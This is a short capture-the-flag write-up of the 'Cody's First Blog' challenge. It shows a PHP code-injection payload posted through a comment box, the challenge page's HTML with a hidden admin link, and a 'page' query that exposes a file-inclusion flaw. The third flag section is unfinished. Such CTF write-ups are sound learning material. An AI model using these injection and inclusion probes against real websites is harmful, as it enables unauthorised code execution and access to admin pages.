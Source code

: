 ```yaml
---
date: "2019-05-12"
title: "Cody's First Blog"
category: "CTF"
---
```


CTF time !!
Let's find flags.

![alt text](https://media.giphy.com/media/sSmxfWnEVxtWU/giphy.gif)

### PHP File Inclusion Vulnerability ~ 🚩(1/3)
Simply by giving the input text (under 'Add comment' text area)
```php
<?php phpinfo(); ?>
```
Then we are able to do remote php code execution.
<br />
Flag captured !!

### PHP File Inclusion Vulnerability ~ 🚩(2/3)
Let's inspect the source HTML file
```html
<!doctype html>
<html>
	<head>
		<title>Home -- Cody's First Blog</title>
	</head>
	<body>
		<h1>Home</h1>
		<p>Welcome to my blog!  I'm excited to share my thoughts with the world.  I have many important and controversial positions, which I hope to get across here.</p>
    <h2>September 1, 2018 -- First</h2>
    <p>First post!  I built this blog engine around one basic concept: PHP doesn't need a template language because it <i>is</i> a template language.  This server can't talk to the outside world and nobody but me can upload files, so there's no risk in just using include().</p>
    <p>Stick around for a while and comment as much as you want; all thoughts are welcome!</p>
		<br>
		<br>
		<hr>
		<h3>Comments</h3>
		<!--<a href="?page=admin.auth.inc">Admin login</a>-->
		<h4>Add comment:</h4>
		<form method="POST">
			<textarea rows="4" cols="60" name="body"></textarea><br>
			<input type="submit" value="Submit">
		</form>
	</body>
</html>
```
There is a commented line, which tells us a potential open API endpoint.
> What if we send weird 'page' query server ? ex: http://35.196.135.216/ef0493ce62/?page=page

Then we got
```
Notice: Undefined variable: title in /app/index.php on line 30

Warning: include(page.php): failed to open stream: No such file or directory in /app/index.php on line 21

Warning: include(): Failed opening 'page.php' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /app/index.php on line 21
```

Ah ha !! This response is like a gold to attacker.
We just found a file inclusion vulnerability.
Let's try different potential file name combinations like 'admin.inc', 'admin', 'auth', 'inc'....

Under 'admin.inc' query id, clients will be redirected to an admin page showing all pending comments.
<br />
Flag captured !!

### PHP File Inclusion Vulnerability ~ 🚩(3/3)
Capturing...
